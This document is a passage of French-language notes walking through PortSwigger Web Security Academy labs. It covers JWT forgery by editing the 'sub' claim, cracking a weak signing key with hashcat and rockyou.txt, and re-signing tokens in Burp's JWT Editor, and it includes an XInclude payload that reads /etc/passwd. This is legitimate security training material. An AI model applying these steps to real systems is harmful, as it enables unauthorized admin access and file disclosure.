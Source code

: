 En décodant le JWT, on observe que le nom d'utilisateur est reflété dans le corps : 

    Payload = {
      "iss": "portswigger",
      "sub": "wiener",
      "exp": 1706705961
    }

En remplaçant tout simplement la valeur du paramètre "sub" par "administrator" et en réencodant seulement cette partie du JWT, on peut accéder à la page d'administration.

### JWT authentication bypass via flawed signature verification 
 
TO DO

### JWT authentication bypass via weak signing key

Installer l'extension "JWT Editor"

Partie 1 : Cassage de la clé

    hashcat -a 0 -m 16500 "eyJraWQiOiIwYjkxZDMzYy0yNmY5LTRkNzMtYjg3MS04YjU4ZDc3NzAxZWEiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTcwNjcwODc5NX0.IrwhpV9snmgXNQu70hXsKcb_f7QZaci59Xpt6qHx8PQ" /mnt/c/Tools/wordlists/rockyou.txt

Partie 2 : Création d'une clé

JWT Editor => New Symmetric Key => Generate

Remplacer le paramètre 'k' par la valeur en Base64 du secret trouvé.

Valider et sauvegarder la clé.

Partie 3 : Modification du JWT

Repeater => JSON Web Token

Modifier les informations du JWT comme dans les labs précédents, puis cliquer sur "Sign" et choisir la clé que l'on vient de créer.

Insérer le JWT dans la requête vers la page d'administration.

### JWT authentication bypass via jwk header injection

TO DO

## === Essential skills ===

### Discovering vulnerabilities quickly with targeted scanning

Active Scan => Détection d'une injection XML

Payload final (à encoder) : 

    <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
